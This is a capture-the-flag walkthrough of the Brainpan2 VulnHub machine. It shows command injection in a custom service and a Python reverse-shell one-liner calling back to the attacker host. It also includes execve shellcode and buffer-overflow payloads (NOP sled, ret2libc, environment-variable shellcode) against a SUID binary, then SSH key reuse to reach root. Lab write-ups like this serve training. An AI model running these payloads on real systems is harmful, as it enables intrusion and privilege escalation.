

# Brainpan2

First the nmap:
```
nmap -v -sC -sV -Pn -n -oA nmap 192.168.147.175                                                        
``` 
So we get a webserver and something interesting on port 9999:                  
```bash
PORT      STATE SERVICE VERSION                    
9999/tcp  open  abyss?                             
| fingerprint-strings:                             
|   NULL:                                          
|     _| _|                                        
|     _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_|                                 
|     _|_| _| _| _| _| _| _| _| _| _| _| _|        
|     _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
|     [______________________ WELCOME TO BRAINPAN 2.0________________________]                        
|_    LOGIN AS GUEST                                                                                  
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)                                           
| http-methods:                                    
|_  Supported Methods: GET HEAD
|_http-server-header: SimpleHTTP/0.6 Python/2.7.3
|_http-title: Hacking Trends
```
Looking at the webserver it gives us a "brainpan.exe" sitting in the /bin directory. 
 pic of mario goes here
Alas it's nothing just an image file we can rename it .jpg and open it sorry Mario.

Moving on we check out whatever this is running on port 9999 and it let's us login as the guest account:
```bash
root@sushi:~/vulnhub/brainpan2# ncat -v 192.168.147.175 9999
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.147.175:9999.
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|

[______________________ WELCOME TO BRAINPAN 2.0________________________]
                             LOGIN AS GUEST                             
                          >> GUEST
                          ACCESS GRANTED
                             *  *  *  *                                
    THIS APPLICATION IS WORK IN PROGRESS. GUEST ACCESS IS RESTRICTED.  
    TYPE "TELL ME MORE" FOR A LIST OF COMMANDS.  
                             *  *  *  *                                
                          >> TELL ME MORE 
    FILES    HELP    VIEW       CREATE
    USERS    MSG     SYSTEM     BYE
```
So some of these commands are disabled or in development still, there are some files sitting around we can look at with VIEW and we can also use the CREATE command. Reading one of the files "brainpan.txt" mentions a debug account which we can login with but doesn't give us anything. Eventually we try adding a ; id into each command and it works on VIEW.
```bash
                          >> VIEW
    ENTER FILE TO DOWNLOAD: blah ; id 
uid=1000(anansi) gid=1000(anansi) groups=1000(anansi),50(staff)
```
From this we can get a shell easily as the anansi user with python or netcat:

```bash
                          >> VIEW                  
    ENTER FILE TO DOWNLOAD: blah ; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.147.161",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@sushi:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.147.161] from (UNKNOWN) [192.168.147.175] 48111
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(anansi) gid=1000(anansi) groups=1000(anansi),50(staff)
$ 
```
We can upgrade the shell and now start to look around...there seems to be a SUID binary "msg_root" in another users reynard's home folder and some stuff  in /opt to check out.
```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'    
anansi@brainpan2:/opt$ ls -lAhr
ls -lAhr
total 8.0K
drwx------ 3 root  root  4.0K Nov  4  2013 old
drwxrwxrwt 2 root  root  4.0K Jun  4 15:23 brainpan
anansi@brainpan2:/opt$ cd /opt/old
cd /opt/old
bash: cd: /opt/old: Permission denied
anansi@brainpan2:/opt$ ls -lah /home/reynard
ls -lah /home/reynard
total 44K
drwxr-xr-x 3 reynard reynard 4.0K Nov  7  2013 .
drwxr-xr-x 5 root    root    4.0K Nov  4  2013 ..
-rw------- 1 reynard reynard    0 Nov  7  2013 .bash_history
-rw-r--r-- 1 reynard reynard  220 Nov  4  2013 .bash_logout
-rw-r--r-- 1 reynard reynard 3.4K Nov  4  2013 .bashrc
-rwsr-xr-x 1 root    root    8.8K Nov  6  2013 msg_root
-rw-r--r-- 1 reynard reynard  675 Nov  4  2013 .profile
-rw-r--r-- 1 reynard reynard  154 Nov  5  2013 readme.txt
-rwxr-xr-x 1 reynard reynard  137 Nov  4  2013 startweb.sh
drwxr-xr-x 3 reynard reynard 4.0K Nov  4  2013 web
anansi@brainpan2:/opt$ /home/reynard/msg_root
/home/reynard/msg_root
usage: msg_root username message
```
Based on the previous Brainpan1 machine and the red herring binary on the webserver exploiting this thing somehow might be the way forward I'm guessing...
```
anansi@brainpan2:/home/reynard$ ./msg_root AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA blah
Segmentation fault
```


There is no objdump, strings, or gcc which will be a pain in the ass later so lets just look at this binary on kali. We do at least have gdb so no big deal. We can mess around with it and quickly send some patterns with PEDA. Here the pattern overwrites into EIP at offset 14 and and some other stack addresses. 



insert  pattern and patts screenshot about offsets

It also seems that there are no exploit mitigations, at least compiled into it:

insert checksec screenshot


Let's make sure we can overwrite into EIP at offset 14 with some garbage and then see if our C's end up somewhere we can put shellcode.


insert overflw screenshot


Looking down the stack we can see our C's at the bottom down by the environment variables, if we replace the C's with some nops and shellcode then jump into there it should work right? 


insert stack screenshot

Let's try pointing EIP at 0xbffff1ba with some padded shellcode and it should slide right into it. We try first with this shellcode here: http://shell-storm.org/shellcode/files/shellcode-811.php
```bash
gdb-peda$ r `python -c 'shell = "\x90" * 20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; print "A" * 14 +"\xba\xf1\xff\xbf" + shell + "\x90" * 960'` a
Starting program: /root/vulnhub/brainpan2/msg_root `python -c 'shell = "\x90" * 20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; print "A" * 14 +"\xba\xf1\xff\xbf" + shell + "\x90" * 960'` a
process 2278 is executing new program: /bin/dash
# id
[New process 2284]
process 2284 is executing new program: /usr/bin/id
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".
uid=0(root) gid=0(root) groups=0(root)
```

So it does load us a shell, this is on our testing machine however so we're already running as root of course. At this point we move back to the victim machine Brainpan2 and use plain vanilla gdb for the rest. The stack addresses will obviously be somewhat different but it shouldn't be very hard to replicate the same overwrite.

First we take a look at the stack with gdb. Our nops and shellcode end up around this area here if we use the previous payload string and address 0xbffff1ba from above:
```bash
(gdb) x/25xw $esp + 0x200
0xbffffb34:     0xfff1ba41      0x909090bf      0x90909090      0x90909090
0xbffffb44:     0x90909090      0x90909090      0x50c03190      0x732f2f68
0xbffffb54:     0x622f6868      0xe3896e69      0xc289c189      0x80cd0bb0
0xbffffb64:     0xcd40c031      0x90909080      0x90909090      0x90909090
0xbffffb74:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb84:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb94:     0x90909090
```
So let's jump into that space around 0xbffffb44 while we're still inside gdb and hopefully it spawns a shell :
```bash
(gdb) r `python -c 'shell = "\x90" * 20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; print "A" * 14 + "\x44\xfb\xff\xbf" + shell + "\x90" * 960'` a
Starting program: /home/reynard/msg_root `python -c 'shell = "\x90" * 20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; print "A" * 14 + "\x44\xfb\xff\xbf" + shell + "\x90" * 960'` a
process 3055 is executing new program: /bin/dash
$ 
```
Awesome now we can do this is in our regular low privileged anansi shell and elevate.
```bash
anansi@brainpan2:/home/reynard$ ./msg_root `python -c 'shell = "\x90" * 20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; print "A" * 14 + "\x44\xfb\xff\xbf" + shell + "\x90" * 960'` a
Segmentation fault
```
Rats it doesn't work. Then we remember that gdb will shift addresses around a bit so we play with the last byte in our overwrite address and slowly increase its value from 0xbffffb44. At first we just get segfaults then it eventually does work at address 0xbffffb52. This could be very stupid if we had to guess more than 10-15 times and should really be automated with a python script or something. The other thing here is the nops at the end need to be around 950-1000 or it will not work. Here is the string that will spawn a shell:
```bash
anansi@brainpan2:/home/reynard$ ./msg_root `python -c 'shell = "\x90" * 20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; print "A" * 14 + "\x52\xfb\xff\xbf" + shell + "\x90" * 960'` a
$ id
uid=1000(anansi) gid=1000(anansi) euid=104(root) groups=106(root),50(staff),1000(anansi)
```


So that was very cumbersome. A cooler way we can do this is overwrite the return address with the system function and load /bin/sh as an argument for it at the start of our garbage of a's. First find that system() address in gdb and then put it as our overwrite with /bin/sh at the begining:
```bash
Breakpoint 1, main (argc=1, argv=0xbffffe14) at msg_root.c:31
31      msg_root.c: No such file or directory.
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7eb3f10 <system>

--snip---

anansi@brainpan2:/home/reynard$ ./msg_root `python -c 'print  "\x2fbin\x2fsh;aaaaaa" + "\x10\x3f\xeb\xb7"'` blah
$ id
uid=1000(anansi) gid=1000(anansi) euid=104(root) groups=106(root),50(staff),1000(anansi)
```

So another and easier way here is to load the shellcode into an environment variable, then determine that address and jump to it. First we need some shellcode loaded into an environment variable with a bit of padding:
```bash
anansi@brainpan2:~$ export SHELLCODE=$(python -c 'print "\x90"*500 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
anansi@brainpan2:~$ echo $SHELLCODE
1Ph//shh/bin°
             ̀1@̀
anansi@brainpan2:~$
```
OK that looks good now we can use this short C code to print the address the variable is at:
```C
#include <stdio.h>                                 
#include <stdlib.h>                                

int main(int argc, char *argv[]) {                 
   printf("%s is at %p\n", argv[1], getenv(argv[1]));                                                 
}              
```
```bash
anansi@brainpan2:~$ ./getenv SHELLCODE             
SHELLCODE is at 0xbffffd4e
```
Nice so let's elevate this time by overwriting the return address with the address of our new environment variable:
```bash
anansi@brainpan2:/home/reynard$ id
uid=1000(anansi) gid=1000(anansi) groups=1000(anansi),50(staff)
anansi@brainpan2:/home/reynard$ ./msg_root `python -c 'print "A" * 14 + "\x4e\xfd\xff\xbf"'` blah
$ id
uid=1000(anansi) gid=1000(anansi) euid=104(root) groups=106(root),50(staff),1000(anansi)
```


So we have an euid root shell using one of the above methods, but ooh crap is it actually root?
```bash
$ cat /root/flag.txt
cat /root/flag.txt
cat: /root/flag.txt: Permission denied
$ cat /root/whatif.txt
cat /root/whatif.txt
       WHAT IF I TOLD YOU
              ___
            /     \
           | ______\
          (, \_/ \_/
           |   ._. |
           \   --- /
           /`-.__.'
      .---'`-.___|\___
     /                `.

       YOU ARE NOT ROOT?

$ id                                               
id
uid=1000(anansi) gid=1000(anansi) euid=104(root) groups=106(root),50(staff),1000(anansi)
$ cat /etc/passwd                                  
cat /etc/passwd                                    
root:x:104:106:root:/root:/bin/bash                
daemon:x:1:1:daemon:/usr/sbin:/bin/sh                                                                 
bin:x:2:2:bin:/bin:/bin/sh                         
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
root :x:0:0:root:/var/root:/bin/bash
---snip---
```

We appear to be euid root but notice in /etc/passwd there seems to be another account named "root " with a space in it that is actually uid 0. Back to the privilege escalation phase then what's in those other folders we saw in /opt/old earlier? 
```bash
$ ls -lah /opt/old/brainpan-1.8
ls -lah /opt/old/brainpan-1.8
total 36K
drwxrwxr-x 2 root  staff 4.0K Jun  7 01:05 .
drwx------ 3 root  root  4.0K Nov  4  2013 ..
-rwsr-xr-x 1 puck  puck   18K Nov  4  2013 brainpan-1.8.exe
-rw-r--r-- 1 puck  puck  1.2K Nov  5  2013 brainpan.7
-rw-rw-rw- 1 puck  staff   27 Nov  5  2013 brainpan.cfg
$ cat brainpan.cfg
cat brainpan.cfg
port=9333
ipaddr=127.0.0.1
$ ./brainpan-1.8.exe
./brainpan-1.8.exe
port = 9333
ipaddr = 127.0.0.1
+ bind done
+ waiting for connections...
```
So this seems to be version 1.8 of the Brainpan2 binary, before we had been dealing with 2.0. It fires up on locahost port 9333 so we get a fresh shell first to actually connect to it.
```bash
anansi@brainpan2:/opt/brainpan$ nc 127.0.0.1 9333  
nc 127.0.0.1 9333
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|

[______________________ WELCOME TO BRAINPAN 1.8________________________]
                             LOGIN AS GUEST                             
```
We can run some of the same commands, look at the documentation and all that, let's get a reverse shell from it again with python.
```
root@sushi:~# nc -nlvp 443                         
listening on [any] 443 ...                         
connect to [192.168.147.161] from (UNKNOWN) [192.168.147.175] 41926                                   
$ id                                               
uid=1000(anansi) gid=1000(anansi) euid=1001(puck) groups=1001(puck),50(staff),1000(anansi)
```
So this time the 1.8 binary sends a shell back as puck instead of anansi, first we check out his /home folders. We notice two different sets of ssh keys are in there and along with a backup of his .bash_history file:
```bash
$ cat .bash_history
cd /usr/local/bin
ls -l
./msg_root "comment on the latest version please"
cd /opt/brainpan/
ps aux
vi brainpan-1.8.c
cd ../archive
netstat -antp
netstat -antp | grep 9888
cd ..
ls
cd old
ls
cd brainpan-1.8
vi brainpan-1.8.c
ssh -l "root " brainpan2
vi brainpan.7
man ./brainpan.7
ls
htop
top
ls -latr
cat .bash_history 
ls
mkdir .backup
mv .ssh .bash* .backup
cd .backup/
ls
clear
ls -latr
exit
```


It looks like he logs into ssh as root with no password, then is moving the keys he used and the history file to .backup hmmmmm. So lets undo that and try to ssh in with those:

```bash
puck@brainpan2:/home/puck$ mv .ssh .ssh-old
mv .ssh .ssh-old
puck@brainpan2:/home/puck$ cp -rp .backup/.ssh .
cp -rp .backup/.ssh .
puck@brainpan2:/home/puck$ ls -la
ls -la
total 32
drwx------ 5 puck  puck   4096 Jun  6 10:31 .
drwxr-xr-x 5 root  root   4096 Nov  4  2013 ..
drwxr-xr-x 3 puck  puck   4096 Nov  5  2013 .backup
-rw------- 1 puck  puck      0 Nov  5  2013 .bash_history
-rw-r--r-- 1 puck  puck    220 Nov  4  2013 .bash_logout
-rw-r--r-- 1 puck  puck   3392 Nov  4  2013 .bashrc
-rw-r--r-- 1 puck  puck    675 Nov  4  2013 .profile
drwx------ 2 puck  anansi 4096 Nov  4  2013 .ssh
drwx------ 2 puck  puck   4096 Nov  5  2013 .ssh-old
puck@brainpan2:/home/puck$ ssh -l "root " brainpan2
ssh -l "root " brainpan2
ssh: connect to host brainpan2 port 22: Connection refused
```
So then we realize ssh is running on a different port:
```bash
netstat -antp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.1.1:2222          0.0.0.0:*               LISTEN      2302/sshd       
tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      2315/brainpan.exe
tcp        0      0 0.0.0.0:10000           0.0.0.0:*               LISTEN      2314/python     
tcp        0      0 127.0.0.1:9333          0.0.0.0:*               LISTEN      3936/brainpan-1.8.e
tcp        0      0 127.0.0.1:37138         127.0.0.1:9333          ESTABLISHED 4008/nc         
tcp        0      0 192.168.147.175:41923   192.168.147.161:443     ESTABLISHED 3097/python     
---snip---

$ ssh -l "root " brainpan2 -p 2222                 
Pseudo-terminal will not be allocated because stdin is not a terminal.                                
Permission denied, please try again.               
Permission denied, please try again.               
Permission denied (publickey,password).
```
We still can't login, but notice our uid is still as the anansi user while just euid is puck. You can change this with some more C code or use python to set our uid to puck's 1001. 
```bash
$ id                                               
uid=1000(anansi) gid=1000(anansi) euid=1001(puck) groups=1001(puck),50(staff),1000(anansi)            
$ python -c 'import os,pty;os.setresuid(1001,1001,1001);pty.spawn("/bin/bash");'
bash: /home/anansi/.bashrc: Permission denied
puck@brainpan2:/home/puck/.ssh$ id
id
uid=1001(puck) gid=1000(anansi) groups=1001(puck),50(staff),1000(anansi)
```
At this point we should be able to use those keys:
```bash
puck@brainpan2:/home/puck/.ssh$ ssh -l "root " brainpan2 -p 2222
ssh -l "root " brainpan2 -p 2222
Linux brainpan2 3.2.0-4-686-pae #1 SMP Debian 3.2.51-1 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Nov  7 11:00:06 2013
root @brainpan2:~# id
id
uid=0(root ) gid=0(root ) groups=0(root )
root @brainpan2:~# cat /root/flag.txt
cat /root/flag.txt

                          !!! CONGRATULATIONS !!!

                 You've completed the Brainpan 2 challenge! 
                 Or have you...? 

                 Yes, you have! Pat yourself on the back. :-)

                 Questions, comments, suggestions for new VM
                 challenges? Let me know! 


                 Twitter: @superkojiman
                 Email  : contact@techorganic.com
                 Web    : http://www.techorganic.com
```
Is that the final step? I've heard it's possible to exploit the brainpan-1.8 binary which we never tried but otherwise I think it's all over. So that was an awesome time, thanks for creating it @superkojiman I will be looking forward to checking out brainpan3 next.


